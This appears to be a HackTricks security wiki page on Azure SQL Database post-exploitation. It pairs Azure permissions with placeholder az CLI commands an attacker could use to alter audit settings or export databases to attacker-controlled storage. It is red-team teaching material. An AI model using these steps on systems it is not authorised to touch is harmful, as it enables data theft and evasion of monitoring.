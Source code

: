 # Az - SQL Database Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SQL Database Post Exploitation
For more information about SQL Database check:

{% content-ref url="../az-services/az-sql-database.md" %}
[az-sql-database.md](../az-services/az-sql-database.md)
{% endcontent-ref %}

### "Microsoft.Sql/servers/databases/read", "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/databases/write"

With these permissions, an attacker can create and update databases within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

{% code overflow="wrap" %}
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
{% endcode %}

### "Microsoft.Sql/servers/elasticPools/write" && "Microsoft.Sql/servers/elasticPools/read"

With these permissions, an attacker can create and update elasticPools within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

{% code overflow="wrap" %}
```bash
# Create Elastic Pool
az sql elastic-pool create \
    --name <new-elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --edition <edition> \
    --dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
    --name <elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --dtu <new-dtu-value> \
    --tags <key=value>
```
{% endcode %}

### "Microsoft.Sql/servers/auditingSettings/read" && "Microsoft.Sql/servers/auditingSettings/write"

With this permission, you can modify or enable auditing settings on an Azure SQL Server. This could allow an attacker or authorized user to manipulate audit configurations, potentially covering tracks or redirecting audit logs to a location under their control. This can hinder security monitoring or enable it to keep track of the actions. NOTE: To enable auditing for an Azure SQL Server using Blob Storage, you must attach a storage account where the audit logs can be saved.

{% code overflow="wrap" %}
```bash
az sql server audit-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --state Enabled \
  --storage-account <storage_account_name> \
  --retention-days 7
```
{% endcode %}

### "Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read", "Microsoft.Sql/servers/connectionPolicies/read" && "Microsoft.Sql/servers/connectionPolicies/write"

With this permission, you can modify the connection policies of an Azure SQL Server. This capability can be exploited to enable or change server-level connection settings

{% code overflow="wrap" %}
```bash
az sql server connection-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --connection-type <Proxy|Redirect|Default>
```
{% endcode %}

### "Microsoft.Sql/servers/databases/export/action"

With this permission, you can export a database from an Azure SQL Server to a storage account. An attacker or authorized user with this permission can exfiltrate sensitive data from the database by exporting it to a location they control, posing a significant data breach risk. It is important to know the storage key to be able to perform this.

{% code overflow="wrap" %}
```bash
az sql db export \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <database_name> \
  --storage-uri <storage_blob_uri> \
  --storage-key-type SharedAccessKey \
  --admin-user <admin_username> \
  --admin-password <admin_password>

```
{% endcode %}

### "Microsoft.Sql/servers/databases/import/action"

With this permission, you can import a database into an Azure SQL Server. An attacker or authorized user with this permission can potentially upload malicious or manipulated databases, overwriting existing ones or introducing harmful data. This can lead to privilege escalation by gaining control over sensitive data or by embedding harmful scripts or triggers within the imported database. Note: The server must allow Azure services and resources to access the server.

{% code overflow="wrap" %}
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri "https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac"
```
{% endcode %}


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
